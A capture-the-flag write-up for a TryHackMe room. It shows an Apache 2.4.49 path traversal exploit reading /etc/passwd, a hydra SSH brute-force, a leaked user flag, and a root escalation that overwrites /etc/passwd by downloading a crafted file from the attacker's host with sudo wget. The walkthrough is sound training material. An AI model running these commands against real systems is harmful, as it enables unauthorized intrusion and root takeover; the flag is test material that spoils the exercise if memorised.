# THM-basiclevelctf-Writeup
https://tryhackme.com/room/basiclevelctf

The first step is to find out which ports are open.

```
nmap -sCV -vv 192.168.1.19
```


From the output of nmap now we know that there are 2 open ports,
that is: port 22 that is running SSH, Port 80 running a http webserver.

1. Q: What are the names of the services on the open ports?
A: ssh,http

# Accessing the Webserver
We access port 80 and this is the result we get.




# Finding directory

To find other pages or directories that may exist within the server
we can use any directory brute-force tools such as dirbuster,
gobuster, dirsearch etc. But In my case I want to use dirb.

```
dirb http://192.168.1.19/
```


# Checking robots.txt
After checking **robots.txt**, we realized that there is a file named **secret.lst** thanks to robots.txt and it is most likely a wordlist.





# Check exploit for open port 22 or 80
Now we only have a wordlist and the ssh service is open. But we did not investigate whether the service running on port 80 has any vulnerability, let's start researching.



It seems that the Apache HTTP Server 2.4.49 service has a vulnerability. Let's download the code and test it on our target machine. 
Reference: https://www.exploit-db.com/exploits/50406
```
chmod +x PoC.sh
echo "http://192.168.1.19" > targets.txt
./PoC.sh targets.txt /etc/passwd
```

Yes, we detected a "Path Traversal" vulnerability on our target machine.
And in this way, we have detected the user named **h1ddenuser** by reading the /etc/passwd file.

# SSH Bruteforce
I will use the **hydra** tool to make a bruteforce attack, you can use any tool you want.
```
hydra -l h1ddenuser -P /home/user00/Downloads/secret.lst -t 64 ssh://192.168.1.19
```

We found the password of the user named **h1ddenuser** with a brute-force attack. Let's log in!
```
ssh h1ddenuser@192.168.1.19
```


# Let's find out what we have
```
cd ~
ls -la
```


2. Q:  user.txt 
A: THM{se3ms_l1ke_ez_f0r_y0u!}

# Privilege Escalation
Let's try **sudo su**
```
sudo su
```

Aughh failed!
But it's okay. Let's try **sudo -l**
```
sudo -l
```


We can use the -O parameter of the **wget** tool to become root. Since it will work with sudo, the output file will also be written by root. This means that we can manipulate the /etc/passwd file as we wish.
But first we need read /etc/passwd file again for copy everything. 
After that create password with **openssl** as we will overwrite /etc/passwd.
```
openssl passwd -1 your_password
```
Output: `$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/`
Let's manipulate the /etc/passwd file.
On our own computer, I create a file named **etc-passwd** on the desktop and make its content like this.
```
root:$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
h1ddenuser:x:1000:1000:h1ddenuser:/home/h1ddenuser:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
Now let's start apache2.service on **attacker** machine for download named **etc-passwd** file and overwrite **/etc/passwd**.

```
sudo service apache2 start
sudo mv /home/user00/Desktop/etc-passwd /var/www/html/
```
Now we can go back to the target ssh terminal. There's only one thing left to do.
```
sudo wget http://192.168.1.200/etc-passwd -O /etc/passwd
```
